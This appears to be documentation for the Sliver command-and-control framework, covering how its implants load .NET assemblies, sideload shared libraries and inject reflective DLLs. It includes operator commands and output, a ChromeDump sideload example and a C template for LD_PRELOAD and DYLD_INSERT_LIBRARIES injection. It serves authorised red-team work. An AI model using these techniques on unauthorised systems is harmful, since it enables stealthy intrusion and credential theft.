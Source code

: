 # Sideloading features

Sliver implants support three different ways of loading third party tools:

- `execute-assembly`
- `sideload`
- `spawndll`

## .NET assemblies loading

This feature is only supported on Windows.

Using `execute-assembly`, one can run an arbitrary .NET assembly on a remote system via a Sliver implant. The implant will start a sacrificial process (`notepad.exe` by default) that will host a reflective DLL used to load the .NET CLR. The assembly will then be copied into this process and a new thread will start on the reflective DLL entrypoint, which will load and run the assembly in memory.

Here's an example with [Seatbelt](https://github.com/GhostPack/Seatbelt):

```
sliver (CONCRETE_STEEL) > execute-assembly -t 80 /tmp/Seatbelt.exe All
[*] Assembly output:

                        %&&@@@&&                                                                                  
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%                         
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################                        
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*                         
                        &%%&&&%%%%%        v0.2.0         ,(((&%%%%%%%%%%%%%%%%%,                                 
                         #%%%%##,                                                                                 

=== Running System Triage Checks ===

=== Basic OS Information ===

  Hostname                      :  DESKTOP-0QQJ4JL
  Domain Name                   :  
  Username                      :  DESKTOP-0QQJ4JL\lab
  ProductName                   :  Windows 10 Pro
  EditionID                     :  Professional
  ReleaseId                     :  1909
  BuildBranch                   :  19h1_release
  CurrentMajorVersionNumber     :  10
  CurrentVersion                :  6.3
  Architecture                  :  AMD64
  ProcessorCount                :  2
  IsVirtualMachine              :  True
  BootTime (approx)             :  5/19/2020 8:55:55 AM
  HighIntegrity                 :  False
  IsLocalAdmin                  :  True
    [*] In medium integrity but user is a local administrator- UAC can be bypassed.
...
```

## Shared libraries side loading

The `sideload` command allows to load and run code in-memory (Windows/Linux) or via dropping a temporary file to disk (MacOS). On Windows, the DLL will be converted to a shellcode via [sRDI](https://github.com/monoxgas/sRDI) and injected into a sacrificial process.

On Linux systems, Sliver uses the `LD_PRELOAD` technique to preload a shared library previously written in a memory file descriptor using the `memfd_create` syscall. That way, no file is stored on disk, which grants the implant a bit of stealth. The shared library is preloaded in a sacrificial process, which is `/bin/ls` by default.

On MacOS systems, Sliver uses the `DYLD_INSERT_LIBRARIES` environment variable to preload a dynamic library into a program, chosen by the operator. The target program must allow unsigned libraries to be loaded that way.

No specific operation is performed by Sliver for Linux and Mac OS shared libraries, which means it's up to the operator to build their shared libraries to execute whenever they see fit. A good starting point would be using the `constructor` attribute for MacOS shared libraries, or adding a `.init_array` section for the Linux version.

Sliver will use the `LD_PARAMS` environment variable to pass arguments to the sideloaded libraries. Thus, the library can just read this environment variable to retrieve parameters and act accordingly.

Here's a starting point :

```c
#if __linux__
#include <stdlib.h>

void DoStuff();

static void init(int argc, char **argv, char **envp)
{
    // unset LD_PRELOAD to prevent sub processes from misbehaving
    unsetenv("LD_PRELOAD");
    // retrieve the LD_PARAMS value
    // unset LD_PARAMS if there's no need for it anymore
    unsetenv("LD_PARAMS");
    DoStuff();
}
__attribute__((section(".init_array"), used)) static typeof(init) *init_p = init;
#elif __APPLE__
void DoStuff();

__attribute__((constructor)) static void init(int argc, char **argv, char **envp)
{
    // unset DYLD_INSERT_LIBRARIES to prevent sub processes from misbehaving
    unsetenv("DYLD_INSERT_LIBRARIES");
    // retrieve the LD_PARAMS value
    // unset LD_PARAMS if there's no need for it anymore
    unsetenv("LD_PARAMS");
    DoStuff();
}

#endif
```

Don't forget to unset the `LD_PRELOAD` or `DYLD_INSERT_LIBRARIES` environment variables, otherwise any sub process started by your shared library or host process will be preloaded with your shared library.

To side load a shared library, use the `sideload` command like this:

```
// Windows example
sliver (CONCRETE_STEEL) > sideload -e ChromeDump /tmp/chrome-dump.dll
// Linux example
sliver (CONCRETE_STEEL) > sideload -p /bin/bash -a "My arguments" /tmp/mylib.so
// MacOS example
sliver (CONCRETE_STEEL) > sideload -p /Applications/Safari.app/Contents/MacOS/SafariForWebKitDevelopment -a 'Hello World' /tmp/mylib.dylib
```

Please be aware that you need to specify the entrypoint to execute for Windows DLLs.

## Loading reflective DLLs

Loading reflective DLLs is just a special case of side loading DLLs. To make things easier, the `spawndll` command allows you to inject reflective DLLs and run them in a remote process.

Here's an example with the `PsC` tool from [Outflank's Ps-Tools suite](https://github.com/outflanknl/Ps-Tools):

```
sliver (CONCRETE_STEEL) > spawndll /tmp/Outflank-PsC.dll blah
[*] Output:

--------------------------------------------------------------------
[+] ProcessName:         svchost.exe
    ProcessID:   2960
    PPID:        576 (services.exe)
    CreateTime:  19/05/2020 10:53
    Path:        C:\Windows\System32\svchost.exe
    ImageType:   64-bit
    CompanyName:         Microsoft Corporation
    Description:         Host Process for Windows Services
    Version:     10.0.18362.1

<-> Session:     TCP
    State:       ESTABLISHED
    Local Addr:  172.16.241.128:49819
    Remote Addr:         40.67.251.132:443

--------------------------------------------------------------------
[+] ProcessName:         CONCRETE_STEEL.exe
    ProcessID:   7400
    PPID:        5440 (explorer.exe)
    CreateTime:  19/05/2020 10:54
    SessionID:   1
    Path:        C:\Users\lab\Desktop\CONCRETE_STEEL.exe
    ImageType:   64-bit
    UserName:    DESKTOP-0QQJ4JL\lab
    Integrity:   Medium
    PEB Address:         0x0000000000352000
    ImagePath:   C:\Users\lab\Desktop\CONCRETE_STEEL.exe
    CommandLine:         "C:\Users\lab\Desktop\CONCRETE_STEEL.exe" 

<-> Session:     TCP
    State:       ESTABLISHED
    Local Addr:  172.16.241.128:49687
    Remote Addr:         172.16.241.1:8888
```

Note that in this case, the entrypoint of the reflective DLL (`ReflectiveLoader`) expects a non NULL parameter, which is why we passed a dummy parameter `blah`.


